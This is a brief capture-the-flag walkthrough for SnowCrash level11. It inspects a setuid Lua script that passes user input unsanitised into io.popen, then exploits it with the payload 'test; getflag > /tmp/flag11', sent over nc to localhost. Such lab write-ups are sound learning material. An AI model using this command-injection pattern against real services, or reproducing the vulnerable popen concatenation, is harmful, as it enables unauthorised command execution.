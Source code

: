 ## 1. Connect to level11:

```bash
level10@SnowCrash:~$ su level11
password: *use previously found flag*
```

## 2. See existing files:

```bash
level11@SnowCrash:~$ ls -l
    -rwsr-sr-x 1 flag11 level11 668 Mar  5  2016 level11.lua
```

```bash
level11@SnowCrash:~$ cat level11.lua
```

The content of `level11.lua` shows:

- That the server runs on localhost, port 5151
``` bash
local server = assert(socket.bind("127.0.0.1", 5151))
```

- That the command `echo [pass] | sha1sum` is executed
```bash
prog = io.popen("echo "..pass.." | sha1sum", "r")
```

## 3. Use a command injection to find the flag:
```bash
level11@SnowCrash:~$ echo 'test; getflag > /tmp/flag11' | nc localhost 5151
    Password: Erf nope..

level11@SnowCrash:~$ cat /tmp/flag11
```